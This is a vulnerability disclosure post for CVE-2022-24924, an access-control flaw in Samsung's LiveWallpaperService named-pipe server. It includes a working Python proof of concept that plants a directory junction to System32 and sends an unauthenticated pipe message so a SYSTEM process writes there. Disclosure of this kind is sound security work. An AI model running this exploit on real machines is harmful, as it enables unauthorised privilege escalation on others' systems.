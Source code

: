 ```yaml
---
title : "Improper access control vulnerability in LiveWallpaperService"
excerpt: "CVE-2022-24924"

categories:
    - "0-day"
tags:
    - [Samsung, 0-day, CVE, CVE-2022-24924, EoP, LPE, PE]
---
```



# Improper access control vulnerability in LiveWallpaperService

Windows version tested: Windows 10 20H2 (Build 19042.1348) 64bit

Live Wallpaper Version: 3.0.9.0 or earlier

There is a LiveWallpaperService that works by default in Samsung laptops, but there was a vulnerability that created the SYSTEM directory in a directory with SYSTEM privileges in the SYSTEM service.

Live Wallpaper is usually installed by default on Samsung laptops, but it is also an app available from the Microsoft Store. The app can be run with User permission and communicates between the server and the client through Named PIPE IPC. At this time, the PIPE Server is operating with SYSTEM privileges and does not check which the clients are.

The following is the operation process performed when the corresponding app is launched.

Server is '33;' Upon receiving the unicode string, it accesses the 'C:\Users\{username}\AppData\Local\Packages\Sidia.LiveWallpaper_wkpx6gdq8qyz8' folder and checks the existence of the LiveWallpaperData directory. A new file system directory is created in the directory with the name 'LiveWallpaperData'.

Named PIPE is used to communicate with each other between processes. Since there is no separate client inspection, the attacker can directly open it and send the desired data.

First, after opening Named PIPE directly, create a directory junction to C:\Windows\System32 using symboliclink-testing-tools produced by james forshaw. It is created as a subdirectory of the System32 directory with privileges.

Here is the PoC for that vulnerability.

In order to perform PoC, the following conditions must be met:

1. Basically, LiveWallpaperService must be running in Windows.
2. The CreateMountPoint.exe executable file and DeleteMountPoint.exe executable file built using the symboliclink-testing-tools produced by james forshaw must exist in the same directory as the PoC.

```python
# python 3.7.2
import os
import shutil
import time
import getpass

def stringToWstring(st : str) -> str:
    result = ''
    for i in st:
        result += i+'\x00'
    return result

def main():
    # current user name
    username = getpass.getuser()

    # path settings
    path1 = f'C:\\Users\\{username}\\AppData\\Local\\Packages\\Sidia.LiveWallpaper_wkpx6gdq8qyz8'
    path2 = 'C:\\Windows\\System32'

    # delete directory
    if os.path.isdir(path1):
        shutil.rmtree(path1)

    # create directory junction
    command = f'CreateMountPoint.exe "{path1}" "{path2}"'
    os.system(command)

    # write data to named pipe
    with open('\\\\.\\pipe\\LiveWallpaperPipe', 'a') as f:
        f.write(stringToWstring('33;'))

    # IPC delay time
    time.sleep(2)

    # directory check
    if os.path.isdir(path2+'\\LiveWallpaperData'):
        print('[+] Success')
    else:
        print('[-] failed')

    # delete directory junction
    command = f'DeleteMountPoint.exe {path1}'
    os.system(command)
    shutil.rmtree(path1)

if __name__=='__main__':
    main()
```

## References
- [https://github.com/heegong/CVE/tree/main/CVE-2022-24924](https://github.com/heegong/CVE/tree/main/CVE-2022-24924)
- [https://www.cve.org/CVERecord?id=CVE-2022-24924](https://www.cve.org/CVERecord?id=CVE-2022-24924)
- [https://security.samsungmobile.com/serviceWeb.smsb?year=2022&month=2](https://security.samsungmobile.com/serviceWeb.smsb?year=2022&month=2)